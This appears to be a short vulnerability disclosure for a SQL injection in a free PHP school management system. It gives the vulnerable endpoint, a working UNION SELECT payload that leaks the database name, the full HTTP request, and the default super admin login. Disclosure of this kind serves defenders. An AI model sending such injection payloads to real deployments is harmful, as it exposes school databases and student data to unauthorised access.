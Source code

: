 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_teacher.php?id=

Vulnerability location: /school/model/get_teacher.php?id=,id

[+] Payload: /school/model/get_teacher.php?id=-10%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> id

Current database name: std_db,length is 6

```sql
GET /school/model/get_teacher.php?id=-10%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970545-5d39f5bd-6716-48ad-9fbd-1f2a98d337b4.png)
